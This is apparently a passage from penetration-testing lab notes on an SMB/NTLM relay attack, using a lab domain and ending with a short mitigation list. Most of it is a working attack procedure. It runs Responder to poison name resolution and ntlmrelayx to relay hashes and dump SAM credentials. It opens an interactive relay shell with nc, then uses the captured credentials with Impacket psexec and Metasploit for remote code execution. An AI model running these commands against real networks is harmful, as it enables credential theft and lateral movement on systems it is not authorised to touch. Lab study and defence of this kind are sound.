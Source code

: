 3. **Configure Responder:**
   ```bash
   sudo mousepad /etc/responder/Responder.conf
   # Set SMB = Off and HTTP = Off
   ```

4. **Start attack (2 terminals):**
   ```bash
   # Terminal 1 - Responder
   sudo responder -I tun0 -dwP
   
   # Terminal 2 - ntlmrelayx
   sudo ntlmrelayx.py -tf targets.txt -smb2support --sam
   ```

5. **Wait for authentication or trigger it**

6. **Connect to interactive shell (if using -i flag):**
   ```bash
   nc 127.0.0.1 11000
   ```

7. **Use captured credentials for further exploitation:**
   ```bash
   # With Impacket
   psexec.py domain/user:password@target
   
   # With Metasploit
   msfconsole
   use exploit/windows/smb/psexec
   set RHOSTS target_ip
   set SMBUser captured_user
   set SMBPass captured_password
   exploit
   ```

## Error Messages to Watch For

```bash
# SMB Signing enabled (attack won't work)
[-] SMB SessionError: STATUS_SHARING_VIOLATION(A file cannot be opened because the share access flags are incompatible.)

# Success indicator
[*] Authenticating against smb://10.0.0.35 as MARVEL\fcastle SUCCEED
```

## Mitigation

### Primary Defenses
- **Enable SMB signing** on all systems (required, not optional)
- **Disable LLMNR and NBT-NS** (prevents initial hash capture)
- **Network segmentation** to limit relay scope
